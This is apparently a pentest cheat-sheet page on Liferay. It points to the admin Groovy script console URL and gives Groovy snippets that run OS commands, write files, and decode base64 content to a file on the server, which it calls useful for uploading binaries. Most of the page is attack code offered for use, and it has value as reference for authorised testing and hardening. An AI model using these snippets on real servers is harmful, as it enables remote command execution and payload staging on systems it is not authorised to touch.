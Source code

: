 ```yaml
---
title: Liferay
category: Software
order: 7
---
```



# RCE from Goovy console

It is possible to achieve os command execution with goovy scripts.

* [http://localhost/group/control_panel/manage?p_p_id=com_liferay_server_admin_web_portlet_ServerAdminPortlet&p_p_lifecycle=0&p_p_state=maximized&p_p_mode=view&_com_liferay_server_admin_web_portlet_ServerAdminPortlet_mvcRenderCommandName=%2Fserver_admin%2Fview&_com_liferay_server_admin_web_portlet_ServerAdminPortlet_cur=0&_com_liferay_server_admin_web_portlet_ServerAdminPortlet_tabs1=script&_com_liferay_server_admin_web_portlet_ServerAdminPortlet_delta=0
](http://localhost/group/control_panel/manage?p_p_id=com_liferay_server_admin_web_portlet_ServerAdminPortlet&p_p_lifecycle=0&p_p_state=maximized&p_p_mode=view&_com_liferay_server_admin_web_portlet_ServerAdminPortlet_mvcRenderCommandName=%2Fserver_admin%2Fview&_com_liferay_server_admin_web_portlet_ServerAdminPortlet_cur=0&_com_liferay_server_admin_web_portlet_ServerAdminPortlet_tabs1=script&_com_liferay_server_admin_web_portlet_ServerAdminPortlet_delta=0

```
def sout = new StringBuilder(), serr = new StringBuilder()
def proc = 'id'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

Write on a file:

```
def file = new File("test.txt")
file.append("outuput\n")
```

Decode a base64 string and store it to a file, useful to upload binaries on the server.

```
def outputFile = new File("/tmp/test.txt") 
def base64Content = "<BASE64-CONTENT>" 
byte[] decodedBytes = Base64.decoder.decode(base64Content)
outputFile.bytes = decodedBytes
```
